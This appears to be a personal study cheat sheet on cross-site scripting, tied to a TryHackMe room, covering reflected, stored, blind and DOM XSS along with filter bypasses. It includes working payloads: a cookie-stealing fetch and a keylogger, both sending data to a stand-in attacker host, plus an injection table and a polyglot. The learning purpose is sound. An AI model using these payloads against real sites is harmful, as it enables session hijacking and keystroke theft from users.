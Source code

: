 # XSS vulnerabilities (Javascript)

[![xssgi](../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called **XSS**, refer to injecting malicious JavaScript in a web application with the goal of it being executed by other users.

**The usual proof of concept**: show an alert if the script was executed.

```js
<script>alert('XSS')</script>
```

I think you would enjoy more

```js
<script>console.log('XSS')</script>
```

<br>

You will most likely use these references:

* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) (42.5k ⭐)
* [OWASP Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) (22k ⭐)
* [OWASP DOM XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html) (22k ⭐)

<br>

One thing to remember is that you would rather make it invisible to the user that a script is being executed in its browser. As such, if you inject a malicious payload in the source attribute of an image field, it would be best to still make sure an image is properly displayed, so that it does not look suspicious at first glance.

</div><div>

<p class="text-center">Some attacks</p>

**Session hijacking**: anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can simulate that we are logged, and bypass verifications such as 2FA.

```js
<script>fetch('https://hacker.website/steal?cookie=' + btoa(document.cookie));</script>
```

**A simple keylogger**: send each key pressed is sent to the hacker website. The script is using `btoa()` to encode in base64 the values.

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.website/keylogger?key=' + btoa(e.key) )}</script>
```

<br>

**Exploit the client privileges**: when a client is logged, then can do things on the website. Sometimes, the website is using an API, and the malicious code may use the client identify to do API calls, such as resetting the password, or stuff like that.

> In CTF, or to test that in local, you can create a server with ncat `nc -nlvp port`, and use `fetch('http://ip:port?x=...')`.
</div></div>

<hr class="sl">

## Reflected XSS

<div class="row row-cols-md-2"><div>

The malicious code is usually inside a URL, and the vulnerable website when loading the URL, will execute the malicious website.
</div><div>

For instance, "https://vulnerable.search.engine" is a search engine in which the query is stored in the URL in the parameter `q`. The website is vulnerable to XSS, so if we open the URL, then the javascript will run in our browser.

```
https://vulnerable.search.engine/?q=%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
```
</div></div>

<hr class="sr">

## Stored XSS

<div class="row row-cols-md-2"><div>

The malicious code is stored by the website, usually in a database. Then, in another page loading the data from the database, a vulnerable website will execute the malicious code.

> Comments, profiles, listings... may be vulnerable.
</div><div>

For instance, a user using the value `<script>alert('XSS');</script>` as username. Then, for instance on the vulnerable profile page, any user opening a link to the compromised profile, will execute the malicious code.
</div></div>

<hr class="sl">

## DOM Based XSS

...

<hr class="sr">

## Blind XSS

<div class="row row-cols-md-2"><div>

In blind XSS, you are usually sending a payload in a contact/support... forms, in order to maybe steal information from the admin-side website if any. We are calling it "blind XSS", because it's not possible to see if it's working.
</div><div>

See [xsshunter](https://github.com/mandatoryprogrammer/xsshunter) (1.2k ⭐)
</div></div>

<hr class="sl">

## XSS payloads

<table class="table table-bordered table-striped border-dark mt-4">
<thead>
<tr><th>Case</th><th>HTML</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Boxed attribute</td><td><code>&lt;input value="here"&gt;</code></td><td><code>">MaliciousCodeHere</code></td></tr>

<tr><td>Unboxed attribute</td><td><code>&lt;input value=here&gt;</code></td><td><code>>MaliciousCodeHere</code></td></tr>

<tr><td>Wrapped</td><td><code>&lt;textarea>here&lt;/textarea&gt;</code></td><td><code>&lt;/textarea&gt;MaliciousCodeHere</code></td></tr>

<tr><td>JavaScript</td><td><code>xxx.innerHTML = 'here';</code></td><td><code>';MaliciousCodeHere;//</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onload="maliciousCodeHere"</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onerror="maliciousCodeHere"</code></td></tr>

</tbody></table>

<hr class="sr">

## Bypass filters

<div class="row row-cols-md-2"><div>

**Logic flaw**

Developers may not protect everything. For instance a select list in which a user is supposed to pick a country. A hacker can try to inject a malicious payload instead of a country, and as the developer used a select list, it may not be filtered.

**Bypass HTML symbols filtering**

If `<`, and `>` are filtered, an attacker may still use HTML attributes.
</div><div>

**Replace failures**

If a developer used a "replace" function, then they there are tricks such as the one below. If there is a filter removing "script", then after removal of "&lt;script&gt;", we will have "s" concatenated with "cript", and we successfully bypassed the filter.

```
<s<script>cript>alert('XSS');</s<script>cript>
// filter remove "<script>"
<script>alert('XSS');</script>
```

There are also various tricks using ASCII/... to bypass filters.
</div></div>

<hr class="sl">

## Polyglots - the magic payloads

<div class="row row-cols-md-2"><div>

XSS polyglots are sort of magic payloads designed to bypass many tags/attributes/filters/... at once.
</div><div>

An example

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
</div></div>